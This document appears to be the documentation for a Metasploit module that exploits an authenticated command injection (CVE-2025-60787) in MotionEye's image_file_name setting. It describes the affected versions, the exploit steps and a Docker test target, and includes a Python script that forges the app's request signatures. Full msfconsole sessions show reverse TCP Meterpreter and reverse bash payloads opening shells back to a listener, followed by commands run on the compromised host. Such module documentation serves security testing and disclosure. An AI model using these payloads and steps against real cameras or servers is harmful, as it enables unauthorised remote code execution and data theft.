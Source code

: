 ## Vulnerable Application

This module exploits a template injection vulnerability in the [MotionEye Frontend](https://github.com/motioneye-project/motioneye).

MotionEye Frontend versions 0.43.1b4 and prior are vulnerable to OS Command Injection in configuration parameters such as `image_file_name`.
Unsanitized user input is written to MotionEye Frontend configuration files, allowing remote authenticated attackers with admin access to achieve code execution.

Successful exploitation will result in the command executing as the user running
the web server, potentially exposing sensitive data or disrupting survey operations.

An attacker can execute arbitrary system commands in the context of the user running the web server.

## Exploit Workflow

1. Adds a new camera in MotionEye Frontend.
2. Injects the payload into the image_file_name field (used for naming camera screenshots).
3. Captures a screenshot ("snapshot" in the terminology of MotionEye), triggering the payload.

## Testing

1. Use Docker to set up the MotionEye app

`docker run -p 9999:8765 ghcr.io/motioneye-project/motioneye@sha256:2dcc3c4da1830ef824067375b2e022fa28c5fdbca773f5496bd35543ec45bef7`

2. Open http://127.0.0.1:9999/ and make sure the app is available

## Scenario

### cmd/linux/http/x64/meterpreter/reverse_tcp

```
msf6 > use exploit/multi/http/motioneye_auth_rce_cve_2025_60787
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/motioneye_auth_rce_cve_2025_60787) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/motioneye_auth_rce_cve_2025_60787) > set RPORT 9999
RPORT => 9999
msf6 exploit(multi/http/motioneye_auth_rce_cve_2025_60787) > set FETCH_SRVHOST 172.17.0.1
FETCH_SRVHOST => 172.17.0.1
msf6 exploit(multi/http/motioneye_auth_rce_cve_2025_60787) > set PASSWORD 12345
PASSWORD => 12345
msf6 exploit(multi/http/motioneye_auth_rce_cve_2025_60787) > run

[*] Started reverse TCP handler on 192.168.19.130:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected version 0.43.14, which is vulnerable
[*] Adding malicious camera...
[+] Camera successfully added
[*] Setting up exploit...
[+] Exploit setup complete
[*] Triggering exploit...
[+] Exploit triggered, waiting for session...
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.19.130:4444 -> 172.17.0.2:38124) at 2025-10-04 21:08:57 -0400
[*] Removing camera
[+] Camera removed successfully

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Debian 13.1 (Linux 6.11.2-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### cmd/unix/reverse_bash

```
msf6 > use exploit/multi/http/motioneye_auth_rce_cve_2025_60787
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/motioneye_auth_rce_cve_2025_60787) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf6 exploit(multi/http/motioneye_auth_rce_cve_2025_60787) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/motioneye_auth_rce_cve_2025_60787) > set RPORT 9999
RPORT => 9999
msf6 exploit(multi/http/motioneye_auth_rce_cve_2025_60787) > run

[*] Started reverse TCP handler on 192.168.19.130:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected version 0.43.14, which is vulnerable
[*] Adding malicious camera...
[+] Camera successfully added
[*] Setting up exploit...
[+] Exploit setup complete
[*] Triggering exploit...
[+] Exploit triggered, waiting for session...
[*] Command shell session 1 opened (192.168.19.130:4444 -> 172.17.0.2:60160) at 2025-10-06 04:46:34 -0400
[*] Removing camera
[+] Camera removed successfully

cat /etc/os-release
PRETTY_NAME="Debian GNU/Linux 13 (trixie)"
NAME="Debian GNU/Linux"
VERSION_ID="13"
VERSION="13 (trixie)"
VERSION_CODENAME=trixie
DEBIAN_VERSION_FULL=13.1
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
```

## Script for signing requests

The application verifies request signatures, so I wrote a small script to sign requests manually.

You won't need it if you use the exploit, but it can be useful for debugging.

```
import hashlib
import re
import argparse
import sys
from urllib.parse import urlsplit, parse_qs, unquote, quote
from typing import Dict, List, Tuple

_SIGNATURE_REGEX = re.compile(r'[^A-Za-z0-9/?_.=&{}\[\]":, -]')

def compute_signature(method: str, path: str, body: str = '', key: str = '') -> str:
    if not method or not path:
        raise ValueError("Method and path must be provided.")

    url_parts = urlsplit(path)
    base_path = url_parts.path
    
    if not base_path.startswith('/'):
        base_path = '/' + base_path
    
    raw_query_params: Dict[str, List[str]] = parse_qs(
        url_parts.query, keep_blank_values=True, strict_parsing=False
    )
    
    canonical_query: List[Tuple[str, str]] = []
    for k, v_list in raw_query_params.items():
        if k == '_signature':
            continue
            
        value = unquote(v_list[0]) if v_list else ''
        canonical_query.append((k, value))
    
    canonical_query.sort(key=lambda item: item[0])
    
    query_string = '&'.join(f"{k}={quote(v)}" for k, v in canonical_query)

    if query_string:
        canonical_path = f"{base_path}?{query_string}"
    else:
        canonical_path = base_path
        
    canonical_path = re.sub(_SIGNATURE_REGEX, '-', canonical_path)

    body_for_signing = re.sub(_SIGNATURE_REGEX, '-', body)
    
    if not key:
        password_hash = "da39a3ee5e6b4b0d3255bfef95601890afd80709"
    else:
        password_hash = hashlib.sha1(key.encode('utf-8')).hexdigest().lower()

    data = f"{method.upper()}:{canonical_path}:{body_for_signing}:{password_hash}"
    
    return hashlib.sha1(data.encode('utf-8')).hexdigest().lower()

def main():
    parser = argparse.ArgumentParser(description="Computes a SHA1 signature for an HTTP request.")

    parser.add_argument('--method', type=str, required=True,
                        choices=['GET', 'POST', 'PUT', 'DELETE'],
                        help="The HTTP method (e.g., GET).")
    parser.add_argument('--path', type=str, required=True,
                        help="The canonical path (e.g., /api/resource?param=value).")
    parser.add_argument('--key', type=str, default='',
                        help="The secret key. Defaults to an empty string.")
    parser.add_argument('--body', type=str, default='',
                        help="The request body as a string. Defaults to an empty string.")

    try:
        args = parser.parse_args()
        
        signature = compute_signature(
            method=args.method,
            path=args.path,
            body=args.body,
            key=args.key
        )

        print(f"Computed Signature: {signature}")

    except ValueError as e:
        sys.stderr.write(f"Error: {e}\n")
        sys.exit(1)
    except Exception as e:
        sys.stderr.write(f"An unexpected error occurred: {e}\n")
        sys.exit(1)


if __name__ == '__main__':
    main()
```

Example of usage:
```
python3 ./main.py --method "GET" --path "/config/1/get/?force=true&_=1759747431350&_username=admin" --body "" --key ""
```
